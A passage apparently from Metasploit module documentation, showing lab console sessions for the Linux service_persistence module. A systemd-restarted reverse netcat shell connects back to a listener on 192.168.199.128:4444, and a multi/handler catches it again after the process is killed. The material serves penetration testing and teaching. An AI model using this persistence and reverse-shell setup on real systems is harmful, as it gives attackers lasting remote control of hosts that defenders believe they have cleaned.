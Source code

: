     ^Z
    Background session 7? [y/N]  y

Kill the process on the Ubuntu target box via local access #good_admin

    root@ubuntu:/etc/systemd/system/multi-user.target.wants# netstat -antp | grep 4444
    tcp        0      0 192.168.199.130:47052   192.168.199.128:4444    ESTABLISHED 5632/nc
    root@ubuntu:/etc/systemd/system/multi-user.target.wants# kill 5632

And logically, we lose our shell

     [*] 192.168.199.130 - Command shell session 7 closed.  Reason: Died from EOFError

Now with a multi handler, we can catch systemd restarting the process every 10sec


    msf exploit(service_persistence) > use exploit/multi/handler 
    msf exploit(handler) > show options

    Module options (exploit/multi/handler):

     Name  Current Setting  Required  Description
     ----  ---------------  --------  -----------
    
    Payload options (cmd/unix/reverse_netcat):

     Name   Current Setting  Required  Description
     ----   ---------------  --------  -----------
     LHOST  192.168.199.128  yes       The listen address
     LPORT  4444             yes       The listen port

    Exploit target:

     Id  Name
     --  ----
     0   Wildcard Target

    msf exploit(handler) > exploit

    [*] Started reverse handler on 192.168.199.128:4444 
    [*] Starting the payload handler...
    [*] Command shell session 8 opened (192.168.199.128:4444 -> 192.168.199.130:47056) at 2016-06-22 10:37:30 -0400

### systemd user

    msf5 exploit(linux/local/service_persistence) > show options

    Module options (exploit/linux/local/service_persistence):

       Name        Current Setting  Required  Description
       ----        ---------------  --------  -----------
       SERVICE                      no        Name of service to create
       SESSION     1                yes       The session to run this module on.
       SHELLPATH   /tmp             yes       Writable path to put our shell
       SHELL_NAME                   no        Name of shell file to write


    Payload options (cmd/unix/reverse_netcat):
